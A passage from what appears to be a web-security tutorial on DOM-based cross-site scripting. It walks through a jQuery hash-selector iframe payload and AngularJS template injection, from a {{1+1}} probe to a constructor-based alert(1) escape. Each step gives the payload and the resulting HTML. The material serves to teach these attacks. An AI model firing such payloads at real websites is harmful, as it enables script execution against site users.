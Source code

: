 Exploit

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

{% hint style="info" %}
**Note**: Recent versions of jQuery have patched this specific vulnerability by preventing HTML injection into a selector if the input begins with a hash (#). But remember, this is just an example, the real problem is how `$()` selector works .
{% endhint %}

### <mark style="color:purple;">AngularJS</mark>

When a site uses the `ng-app` attribute on an HTML element, AngularJS processes it and executes JavaScript inside double curly braces `{{ }}` in HTML or attributes.

Consider

```
https://example.com/?search=test
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for 'test'</h1>
<!-- something -->
</body>
```

**Test**

```sh
https://example.com/?search=%7B%7B1%2B1%7D%7D # ?search={{1+1}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for '2'</h1>
<!-- something -->
</body>
```

**Exploit**

```sh
https://example.comnet/?search=%7B%7B%24on.constructor%28%27alert%281%29%27%29%28%29%7D%7D
# ?search={{$on.constructor('alert(1)')()}}
```

```html
<body ng-app>
<!-- something -->
<h1>0 search results for ''</h1>
<!-- something -->
</body>
```
